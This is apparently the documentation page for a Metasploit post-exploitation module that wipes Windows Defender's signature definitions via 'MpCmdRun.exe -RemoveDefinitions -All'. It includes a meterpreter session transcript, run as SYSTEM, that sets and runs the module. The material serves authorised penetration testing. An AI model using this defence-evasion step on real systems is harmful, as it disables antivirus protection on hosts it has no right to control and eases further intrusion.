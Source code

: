 
This module requires system privs

This module rolls back the signatures in windows defender to the
earliest signatures.  The level of protection is somewhat indeterminate.
This action is accomplished by running the command:
`MpCmdRun.exe -RemoveDefinitions -All`

To recover, you can run
`MpCmdRun.exe -UpdateSignatures`
That will force defender to update the signatures to the latest version
from 


###Vulnerable Applications
Windows defender is the target, though this is a feature

###Verification Steps
```
msf5 post(windows/manage/rollback_defender_signatures) > sessions -i -1
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN-5ADJK2NT7IJ
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 3...
msf5 post(windows/manage/rollback_defender_signatures) > show options

Module options (post/windows/manage/rollback_defender_signatures):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ACTION   Update           yes       Action to perform (Update/Rollback) (Accepted: Rollback, Update)
   SESSION  3                yes       The session to run this module on.

msf5 post(windows/manage/rollback_defender_signatures) > set action rollback
action => rollback
msf5 post(windows/manage/rollback_defender_signatures) > set verbose true
verbose => true
msf5 post(windows/manage/rollback_defender_signatures) > show options

Module options (post/windows/manage/rollback_defender_signatures):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ACTION   rollback         yes       Action to perform (Update/Rollback) (Accepted: rollback, update)
   SESSION  3                yes       The session to run this module on.

msf5 post(windows/manage/rollback_defender_signatures) > run

[*] program_path = C:\Program Files
[*] file_path = C:\Program Files\Windows Defender\MpCmdRun.exe
[*] Removing All Definitions for Windows Defender
[*] rollback
[*] Running cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
[*] 
Service Version: 6.1.7600.16385
Engine Version: 1.1.15400.5
AntiSpyware Signature Version: 1.281.1013.0e[*] Post module execution completed

### Options
Module options (post/windows/manage/rollback_defender_signatures):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ACTION   rollback         yes       Action to perform (Update/Rollback) (Accepted: rollback, update)
   SESSION  3                yes       The session to run this module on.

Session is standard
ACTION is what you would like to do.  Rollback rolls the definitions
back to the original, update updates the signatures.  In theory, on
a normal system, rollback will push to old definitions, and update will
return the definitions.
